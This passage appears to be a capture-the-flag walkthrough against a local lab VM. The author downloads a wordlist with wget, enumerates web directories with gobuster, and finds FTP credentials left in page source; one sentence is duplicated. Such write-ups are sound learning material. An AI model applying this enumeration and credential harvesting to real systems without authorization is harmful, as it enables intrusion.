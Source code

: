Downloaded the secret.dic file using wget so I could continue using it for later.

```sh
wget http://192.168.56.101/hidden_text/secret.dic
```

Below is the output from the command.

```sh
--2020-09-04 23:33:17--  http://192.168.56.101/hidden_text/secret.dic
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 211
Saving to: ‘secret.dic’

secret.dic                    100%[===============================================>]     211  --.-KB/s    in 0s      

2020-09-04 23:33:17 (11.8 MB/s) - ‘secret.dic’ saved [211/211]
```

Ran the dictionary file secret.dic against the web server on the VM and it found a page named pwned.vuln.

```sh
gobuster dir -u http://192.168.56.101/ -w secret.dic 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.101/
[+] Threads:        10
[+] Wordlist:       secret.dic
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/04 23:33:58 Starting gobuster
===============================================================
//pwned.vuln (Status: 301)
===============================================================
2020/09/04 23:33:58 Finished
===============================================================
```

Looks like someone named vanakam nanba hacked the login page. Looks like someone named vanakam nanba hacked the login page. on further inspection of the pwned.vuln page looks like there are FTP credentials commented out in the source of the page. Below are the credentials found.

- Username: ftpuser
- Password: B0ss_B!TcH

Now I’m going to start diverting my attention to the FTP server.

```sh
curl http://192.168.56.101/pwned.vuln/
```
